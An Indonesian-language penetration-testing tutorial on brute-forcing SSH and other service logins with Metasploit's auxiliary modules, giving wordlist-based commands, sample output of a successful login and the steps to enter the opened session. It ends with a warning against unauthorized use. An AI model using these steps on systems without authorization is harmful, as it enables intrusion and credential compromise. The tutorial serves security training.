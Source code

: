 # Bruteforce Login Modul di Metasploit

Metasploit Framework memiliki banyak modul auxiliary yang mendukung bruteforce login terhadap berbagai layanan seperti `SSH`, `FTP`, `HTTP`, `SMB`, `dll`. Modul ini berguna untuk menguji kekuatan kredensial yang digunakan oleh target dan sering dipakai dalam fase credential access saat penetration testing.

## A. Modul-Modul Umum Bruteforce di Metasploit

| Layanan	| Modul Bruteforce |
|:--:|:--:|
| SSH	| `auxiliary/scanner/ssh/ssh_login` |
| FTP	| `auxiliary/scanner/ftp/ftp_login` |
| Telnet | `auxiliary/scanner/telnet/telnet_login` |
| SMB	| `auxiliary/scanner/smb/smb_login` |
| HTTP | `auxiliary/scanner/http/http_login` |

## B. Bruteforce SSH dengan `ssh_login`

Langkah-langkah:

### 1. Gunakan Modul:

   ```
   use auxiliary/scanner/ssh/ssh_login
   ```

### 2. Lihat Opsi Konfigurasi:

   ```
   show options
   ```

### 3. Setting Target dan Payload:

   ```
   set RHOSTS <IP TARGET>
   ser RPORT 22
   set USER_FILE /usr/share/wordlists/user.txt
   set PASS_FILE /usr/share/wordlists/rockyou.txt
   set BRUTEFORCE_SPEED  5
   set THREADS 1
   set VERBOSE true
   run
   ```

   Kalu berhasil output-nya akan sepertin ini:

   ```
   [-] 192.168.1.27:22 - Failed: 'root:'
   [-] 192.168.1.27:22 - Failed: 'debian:admin'
   [-] 192.168.1.27:22 - Failed: 'debian:root'
   [+] 192.168.1.27:22 - Success: 'debian:debian' 'uid=1000(debian) gid=1000(debian) groups=1000(debian),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),110(bluetooth)       Linux debian 6.1.0-34-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.135-1 (2025-04-25) x86_64 GNU/Linux '
   [*] SSH session 1 opened (192.168.1.42:38455 -> 192.168.1.27:22) at 2025-05-09 16:16:12 +0700
   ```

   Hasil Brute Force akan otomatis disimpan dalam database Metasploit jika aktif:

   ```
   creds
   ```

   Disini ada sesi Meterpreter yang terbuka yakni sesi dengan ID `1`, kita bisa masuk ke sesi Meterpreter-nya dengan cara:

   ```
   session -i 1
   ```

   Dan selamat kamu sudah masuk kedalam sistem terget:

   ```
   msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 1
   [*] Starting interaction with 1...

   pwd
   /home/debian
   ```

   Disini kamu bisa melakukan banyak perintah dan banyak hal.

   **Catatan Opsi Penting**

   | Opsi | Deskripsi |
   |:--:|:--:|
   | `RHOSTS` | IP target  |
   | `RPORT` | Port SSH |
   | `USERNAME` | Gunakan satu username (jika diketahui)  |
   | `PASSWORD` | Gunakan satu password (jika diketahui)  |
   | `USER_FILE` | File Wordlist yang berisi username  |
   | `PASS_FILE` | File Wordlist yang berisi password  |
   | `BRUTEFORCE_SPEED` | Kecepatan proses Brute Force |
   | `THREADS`	| Jumlah thread paralel untuk mempercepat proses  |
   | `VERBOSE` | Menampilkan output lebih detail (debugging)

## Tips Tambahan

- Gunakan wordlist yang relevan (hindari terlalu besar agar tidak lambat).
- Gunakan `services` untuk melihat layanan yang bisa ditargetkan:

  ```
  services -p 22 -u
  ```

- Bisa digabung dengan hasil `Nmap` yang sudah diimpor ke Metasploit.

> Jangan gunakan teknik  Brute Force ke sistem yang bukan milikmu atau tanpa izin.
